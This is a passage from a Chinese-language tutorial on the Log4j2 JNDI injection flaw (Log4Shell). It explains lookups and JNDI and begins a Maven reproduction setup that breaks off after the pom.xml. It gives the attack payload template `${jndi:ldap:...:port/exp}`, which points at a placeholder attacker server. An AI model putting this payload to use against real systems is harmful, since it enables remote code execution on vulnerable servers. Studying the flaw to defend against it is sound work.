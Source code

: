 ```bash
${spring}
${sys:logPath}
${web:rootDir}
```



而其中的**JNDI**（Java Naming and Directory Interface, Java命名和目录接口）就是本次的主题了，t它提供一个目录系统，并将服务与对象关联起来，可以使用名称来访问对象。而log4j 2中JNDI解析未作限制，可以直接访问到远程对象，如果是自己的服务器还好说，那如果访问到黑客的服务器.......

也就是当记录日志的一部分是用户可控时，就可以构造恶意字符串使服务器记录日志时调用JNDI访问恶意对象，也就是流传出的payload构成：

`${jndi:ldap:xxx.xxx.xxx.xxx:xxxx/exp}`



其实JNDI通过SPI（Service Provider Interface）封装了多个协议，包括LDAP、RMI、DNS、NIS、NDS、RMI、CORBA。













## SpringBoot集成log4j2













## 漏洞复现

### 1.新建Maven项目，导入依赖

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>MavenTest1</artifactId>
    <version>1.0-SNAPSHOT</version>

    <build>
        <plugins>
            <plugin>
                <groupId>org.apache.maven.plugins</groupId>
                <artifactId>maven-compiler-plugin</artifactId>
                <configuration>
                    <source>17</source>
                    <target>17</target>
                    <compilerArgs>
                        <arg>--add-exports=jdk.naming.rmi/com.sun.jndi.rmi.registry=ALL-UNNAMED</arg>
                    </compilerArgs>
                </configuration>
            </plugin>
        </plugins>
    </build>
```